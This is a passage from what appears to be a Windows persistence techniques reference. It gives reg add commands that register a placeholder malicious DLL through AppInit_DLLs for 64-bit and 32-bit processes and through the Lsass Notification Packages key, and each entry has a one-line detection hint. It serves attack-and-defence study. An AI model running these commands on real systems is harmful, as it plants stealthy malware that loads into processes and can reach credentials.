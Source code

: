 Add new event to database and set the execution timer.


#### Detection:

User can see malicious string in *WMI Database Enties*

</br></br>

## AppInit

#### Example:
##### For x64 programs:
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\badguy64.dll" /f

```

##### For x32 programs:
```powershell
reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f

reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\badguy32.dll" /f
```

Turn LoadAppInit_DLLs to 1 and add in AppInit_DLLs path to malware.

#### Detection:

User can see that value of **LoadAppInit_DLLs** at *HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows* or  *HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows* is set to 1 and also can see malicious string at the same path in  **AppInit_DLLs**.


</br></br>

## System process Lsass

#### Example:
```powershell
reg add "HKLM\system\currentcontrolset\control\lsa" /v "Notification Packages" /t reg_multi_sz /d "c:\path\to\badguy.dll" /f

```
Just add a library for *Lsass* process

#### Detection:
User can see malicious string in reg **HKLM**
